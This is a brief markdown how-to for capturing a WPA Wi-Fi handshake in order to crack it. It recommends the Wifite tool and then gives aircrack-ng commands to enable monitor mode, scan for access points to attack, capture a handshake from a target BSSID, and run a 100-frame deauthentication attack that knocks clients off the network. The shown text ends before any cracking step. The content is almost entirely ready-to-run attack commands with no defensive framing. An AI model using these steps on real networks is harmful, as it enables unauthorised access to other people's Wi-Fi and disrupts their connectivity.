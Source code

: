 # Capturing and cracking a WPA handshake

## Short version
Run [Wifite](https://github.com/derv82/wifite) :-)

## Long, manual version

Kill processes that might f stuff up:

    airmon-ng check kill
    
Start monitoring:

    sudo airmon-ng start wlan0
  
Find APs to attack:
  
    sudo airodump-ng mon0
    
Start listening for a handshake:

    sudo airodump-ng -c 1 --bssid 00:11:22:33:44:55 -w name-of-file-to-output mon0 --ignore-negative-one


Start a mass disassociation to speed up previous step:

    sudo aireplay-ng --deauth 100 -a 00:11:22:33:44:55 mon0 --ignore-negative-one
    
